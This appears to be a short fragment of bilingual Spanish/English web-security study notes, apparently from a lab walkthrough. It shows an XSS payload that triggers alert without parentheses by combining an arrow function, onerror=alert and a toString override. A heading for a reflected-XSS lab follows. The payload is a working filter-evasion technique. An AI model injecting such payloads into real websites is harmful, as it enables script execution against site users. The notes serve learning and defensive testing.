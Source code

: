 - Funciones flecha (Sin paréntesis)

```html
<script>
a=a =>{throw onerror=alert,1},toString=a,window + 'test'
</script>
```

```html
<script>
a=a =>{
throw onerror=alert,1;
};
toString=a;
window + 'test';
</script>
```

## XSS reflejado en HTML sin codificación || Reflected XSS into HTML context with nothing encoded

![](/img2/Pasted%20image%2020250721134851.png)

